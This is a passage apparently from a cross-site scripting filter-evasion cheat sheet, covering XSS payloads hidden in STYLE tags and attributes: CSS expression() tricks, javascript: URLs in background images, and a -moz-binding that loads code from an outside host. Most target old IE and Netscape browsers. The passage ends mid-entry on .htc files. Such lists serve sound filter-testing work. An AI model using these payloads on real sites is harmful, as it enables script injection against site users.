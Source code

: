 `<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>`

## STYLE tags with broken up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

`<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>`

## STYLE attribute using a comment to break up expression

Created by Roman Ivanov

`<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">`

## IMG STYLE with expression

This is really a hybrid of the above XSS vectors, but it really does
show how hard STYLE tags can be to parse apart, like above this can send
IE into a loop:

`exp/*<A STYLE='no\xss:noxss("*//*");`  
`xss:ex/*XSS*//*/*/pression(alert("XSS"))'>`

## STYLE tag (Older versions of Netscape only)

`<STYLE TYPE="text/javascript">alert('XSS');</STYLE>`

## STYLE tag using background-image

`<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>`

## STYLE tag using background

`<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>`

<STYLE type="text/css">

BODY{background:url("<javascript:alert>('XSS')")}

</STYLE>

## Anonymous HTML with STYLE attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if
the HTML tag you build exists or not, as long as it starts with an open
angle bracket and a letter:

`<XSS STYLE="xss:expression(alert('XSS'))">`

## Local htc file

This is a little different than the above two cross site scripting
vectors because it uses an .htc file which must be on the same server as
the XSS vector. The example file works by pulling in the JavaScript and
running it as part of the style attribute:
